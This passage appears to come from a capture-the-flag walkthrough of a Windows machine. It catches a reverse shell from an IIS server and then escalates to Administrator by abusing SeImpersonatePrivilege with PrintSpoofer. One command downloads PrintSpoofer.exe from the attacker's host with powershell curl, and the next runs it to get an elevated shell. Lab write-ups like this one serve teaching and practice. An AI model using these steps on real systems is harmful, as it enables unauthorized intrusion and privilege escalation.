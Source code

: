                 7735807 blocks of size 4096. 5137483 blocks available
smb: \> 

```

set your ncat listener ready 

![image](https://user-images.githubusercontent.com/87468669/194744120-e07e7853-506a-48b4-af2e-e739b3686c1c.png)

now let's navigate to the browser and try pop up the shell

![image](https://user-images.githubusercontent.com/87468669/194744182-30b2d6a5-a1ac-48d0-96dc-70eb3e4afa49.png)

Check back our listener

![image](https://user-images.githubusercontent.com/87468669/194744269-a42e2bd1-d625-45df-9a65-0f8fca17a9ed.png)

We got shell into the system

```
c:\windows\system32\inetsrv>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled

c:\windows\system32\inetsrv>

```

```SeImpersonatePrivilege``` is enabled, now let find a way to abuse to get administrator access. And with the help of a tools called ```PrintSpoofer```

![image](https://user-images.githubusercontent.com/87468669/194744560-7c94aa38-e6db-4f60-bc9d-d21504abfe66.png)

Now let's download it into our target machine

```
c:\Users\Bob>powershell -c curl http://10.8.12.222:8000/PrintSpoofer.exe -o printspoofer.exe

printspoofer.exe -i -c powershell
```

![image](https://user-images.githubusercontent.com/87468669/194744953-18dc34cc-e8ed-44fd-8816-56131873b6a5.png)

We are now Administrator great 

![image](https://user-images.githubusercontent.com/87468669/194745074-41bab5ea-2e10-4765-a741-8a59ed483283.png)

And we are done. Hope you had fun 😉
